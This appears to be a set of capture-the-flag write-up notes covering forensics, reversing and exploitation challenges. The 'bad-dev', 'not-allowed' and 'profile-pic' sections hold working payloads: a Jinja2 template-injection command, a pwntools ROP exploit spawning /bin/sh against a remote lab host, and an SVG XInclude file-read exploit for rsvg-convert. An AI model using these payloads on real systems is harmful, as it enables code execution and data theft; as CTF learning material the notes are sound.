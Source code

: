 # wicked-firmware

q1 - run strings
q3 - in /etc/hosts/

# just-an-upload

filter for http
observe POSTs to upload.php
get data sent (PK -> zip)
get zip and obtain flag

# file-factory

q1 - open in ghidra and look for some func named main => main.main
q2 - search for file1.txt and see where it appears
q3 - wild guess, in main there are 2 func calls, createFile and copyFile, since createFile was for q2, this ought to be for q3
q4 - use apimonitor
q5 - use apimonitor

# pin

put file in Ghidra
see func that checks whether the pin is valid
make all bool vars true
respect last if
done

# threat-monitoring

q1 - filter for date and see weird packages sent to that host
q2 - see some requests that include the compromised domain in the req
q3 - get ip of host from q1

# secrets-secrets-secrets

analyze py script and see what pass it requires to decrypt the file (execute separately part of the code and see the output) => load_file
input that and get the flag from binary

# wicked-game

put it in bytecode viewer
analyze winning condition - it loads a bitmap
run apktool
see the graphic
zoom in below the android -.-

# wicked-monitoring

q1 - get compromised user (initially it was set to the guy who wrote PuTTy -.-, but it was changed after I pointed it out to the actual compromised user)
q2 - look through logs, plink.exe stands out
q3 - uses putty to connect to port 3389 => RDP

# bad-dev

sqli/xss don't work
analyzing responses, we see its a python server
testing ssti reveals its jinja2 templates
accessing builtins works => `{{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}`

# not-allowed

buffer overflow from `fgets` - check to see how much until we overwrite saved rip, and then we'll focus on some ROP
running `ROPGadget`, we see syscall, thus we'll use it to run `execve("/bin/sh", 0, 0)` (format is `execve(%rdi%, %rsi%, %rdx%)`, with `%rax% = 59`)
also, there's a wish function which gives us the "/bin/sh" string, nice, get addr of "/bin/sh" from there
thus, gather some gadgets to make `%rax% = 59`, `%rsi% = 0` and `%rdx%=0` and `%rdi%` to have the addr of "/bin/sh"
lastly, make sure stack is aligned upon syscall, that's what the filler is for

```Python
from pwn import *
wish = p64(0x00401175)
zero_rax = p64(0x0000000000401161)
zero_rdx = p64(0x000000000040116e)
zero_rsi = p64(0x00000000004011c4)
inc_rax = p64(0x00000000004011ce)
pop_rdi = p64(0x0000000000401156)
binsh = p64(0x0040407d)
syscall = p64(0x00000000004011cb)
filler = p64(0x000000000040101a)
overwrite = b"A" * 40
payload = overwrite + wish + zero_rax + zero_rsi + zero_rdx
for _ in range(59):
	payload += inc_rax
payload += (pop_rdi + binsh + filler + syscall)
#p = gdb.debug("./not-allowed", "br main")
p = remote("34.89.210.219", 31097)
p.sendline(payload)
p.interactive()

```

# profile-pic

seems to only manage to upload svgs with 50px by 50px
if it fails, we see that it uses `rsvg-convert`
search for cve-s for it, end up here: `https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/`
spent some time getting /etc/passwd searching for home of user with flag, ended up nowhere
used `ffuf` for file/directory enumeration and observed `flag.php`
read `flag.php` and got flag (vary `x` to get text)

```XML
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
	<svg width="50px" height="50px" xmlns:xi="http://www.w3.org/2001/XInclude">
	  <rect width="50px" height="50px" style="fill:rgb(255,204,204);" />
	  <text x="-600" y="30">
	    <xi:include
	      href=".?../../../../../../../var/www/html/flag.php"
	      parse="text"
	      encoding="ASCII"
	    >
	      <xi:fallback>file not found</xi:fallback>
	    </xi:include>
	  </text>
	</svg>
```
